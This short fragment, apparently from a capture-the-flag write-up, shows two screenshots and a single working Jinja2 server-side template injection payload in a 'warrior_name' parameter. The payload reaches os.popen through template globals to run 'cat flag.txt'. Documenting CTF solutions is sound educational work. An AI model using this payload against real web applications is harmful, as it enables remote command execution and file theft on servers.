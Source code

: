 ![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-5.png)
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-12.png)


```python
warrior_name={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20flag.txt').read()}}
```
